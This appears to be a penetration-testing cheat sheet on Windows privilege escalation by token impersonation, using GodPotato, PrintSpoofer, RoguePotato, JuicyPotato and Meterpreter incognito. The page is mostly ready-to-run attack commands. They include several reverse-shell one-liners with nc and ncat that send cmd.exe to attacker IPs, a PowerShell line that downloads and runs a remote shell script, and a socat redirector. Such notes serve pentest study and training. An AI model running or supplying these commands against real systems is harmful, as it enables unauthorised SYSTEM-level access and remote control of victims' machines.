     If the machine is >= Windows 10 1809 & Windows Server 2019 - Try God Potato
    If the machine is < Windows 10 1809 & < Windows Server 2019 - Try Juicy Potato or PrintSpoofer   
### Meterpreter Token Impersonation    

    load incognito    
    list_tokens -u       
    impersonate_token domain\\username   #impersonate a domain user   
### SeBackupPrivilege      
[DLLs to enable and exploit](https://github.com/giuliano108/SeBackupPrivilege)     

### GodPotato    
https://github.com/BeichenDream/GodPotato     

    reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"   #check framework version to download the right binary       
    GodPotato -cmd "cmd /c whoami"    
    GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.1 4444"
### PrintSpoofer 
SeImpersonatePrivilege. Windows Server 2016, Server 2019, and Windows 10.          
[Print Spoofer](https://github.com/itm4n/PrintSpoofer)       
[Compiled exe](https://github.com/dievus/printspoofer)          

     PrintSpoofer.exe -i -c cmd   
     c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"    

### Rogue Potato   
[Blog post](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)   
[Code](https://github.com/antonioCoco/RoguePotato)  

run redirector on kali and exe on victim:

     socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999
     .\RoguePotato.exe -r YOUR_IP -e "command" -l 9999   
     test cmd: -e "cmd.exe /c ping YOUR_IP"  
     shell cmd: -e "powershell -c iex( iwr http://[YOUR_IP]/shell.ps1 -UseBasicParsing )"   
     using nishang web shell 

### Juicy Potato   
Modified version of RottenPotato. 
Affected Windows versions: Win 10 Enterprise 1803, Win 10 Pro 1803, Win 7 Enterprise, Win 9.1 Enterprise, Win Server 2008 R2 / 2012 / 2016.       
Look for SeImpersonate or SeAssignPrimaryToken 
[binaries](https://github.com/ohpe/juicy-potato)  
[CLSIDS](http://ohpe.it/juicy-potato/CLSID/)   

     juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
     
     ncat.exe -l 3333      
     C:\\JuicyPotato.exe -l 1234 -p c:\\windows\\system32\\cmd.exe -a "/c C:\\ncat.exe -e cmd.exe 127.0.0.1 3333" -t *    #use ncat.exe to get a privileged shell      
Troubleshooting errors:    
“COM → recv failed with error: 10038” typically indicates that the receiving socket has been closed. Error code 10038 indicates that the underlying socket has been disconnected, which could be caused by a number of factors, such as network issues, application errors, or other system-level problems.    
Common good CLSIDs: Wuauserv, Wsearch, XmlGameSave and BITS      
Try other CLSIDs from the list above or testing scripts   
